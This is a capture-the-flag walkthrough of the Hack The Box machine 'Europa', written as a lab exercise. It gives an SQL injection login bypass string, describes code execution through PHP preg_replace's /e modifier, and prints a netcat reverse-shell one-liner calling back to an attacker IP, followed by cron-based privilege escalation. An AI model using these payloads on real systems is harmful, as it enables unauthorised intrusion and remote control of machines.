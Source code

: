 ```yaml
---
title: "Hack The Box - Europa"
tags: [linux,medium,SQLi,openvpn config,regex,preg_replace,preg replace,cronjob,exec ]
categories: HackTheBox-Linux
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled.png)

## NMAP

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%201.png)

## Enumerating Web

→ Finding subdomains :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%202.png)

→ There's an login page on admin-portal

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%203.png)

→ We were able to login with simple sqli :

**`admin@europacorp.htb'-- -`**

⇒ There's an openvpn config file generator page. We intercept the request in burp

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%204.png)

→ These `/` are used for regular expressions ( regex ). It replaces the word `ip_address` in our `text` parameter with `test`

## Exploiting preg_replace

[https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace](https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%205.png)

⇒ We can exploit `preg replace` by adding `e` after the regex and executing commands through `system` in php

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%206.png)

→  Ran netcat oneliner to get a shell :

**`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.52 1234 >/tmp/f`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%207.png)

## Privilege Escalation to Root

→ There's a crontob running a php script 

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%208.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%209.png)

→ It executes script [logcleared.sh](http://logcleared.sh) in /var/www/cmd/

→ Writing to the file an reverse shell :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%2010.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Europa%20Box%203c0f53c97532473c909d99dd7d129277/Untitled%2011.png)

